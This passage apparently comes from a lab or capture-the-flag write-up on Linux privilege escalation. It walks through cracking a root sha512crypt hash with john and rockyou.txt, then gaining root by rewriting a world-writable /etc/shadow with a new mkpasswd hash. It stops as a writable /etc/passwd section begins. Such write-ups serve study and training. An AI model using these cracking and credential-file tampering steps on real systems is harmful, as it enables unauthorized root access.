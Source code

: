 ### What hashing algorithm was used to produce the root user's password hash?
- **Answer:** sha512crypt

### What is the root user's password?
- **Answer:** password123
- **Steps to Reproduce:** 
    - Crack the hash using john:

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt shadow-hash 
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Press 'q' or Ctrl-C to abort, almost any other key for status
password123      (?)
1g 0:00:00:00 DONE (2021-05-24 13:04) 1.162g/s 1637p/s 1637c/s 1637C/s cuties..tagged
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

---

##  Weak File Permissions - Writable /etc/shadow

```bash
user@debian:~$ ls -l /etc/shadow
-rw-r--rw- 1 root shadow 837 Aug 25  2019 /etc/shadow
user@debian:~$ mkpasswd -m sha-512 supersecretpassword
$6$OGWiu3TBVJ$irEIBakkRL0CkmbVXhc0fp5gu/Mum0M417CILk2JM07.nAhRTvbCKqVpRhsX2ouY.KvwS8Eo26vtrPsycA6Qf0
```

- Edit `/etc/shadow` and su using the new password:

```
user@debian:~$ nano /etc/shadow
user@debian:~$ su root
Password: 
root@debian:/home/user# whoami
root
```


---

##  Weak File Permissions - Writable /etc/passwd

- Generate a new encrypted password using openssl

```bash
user@debian:~$ ls -l /etc/passwd
-rw-r--rw- 1 root root 1009 Aug 25  2019 /etc/passwd
user@debian:~$ openssl passwd tough
L7E1UkeBb0kV6
```

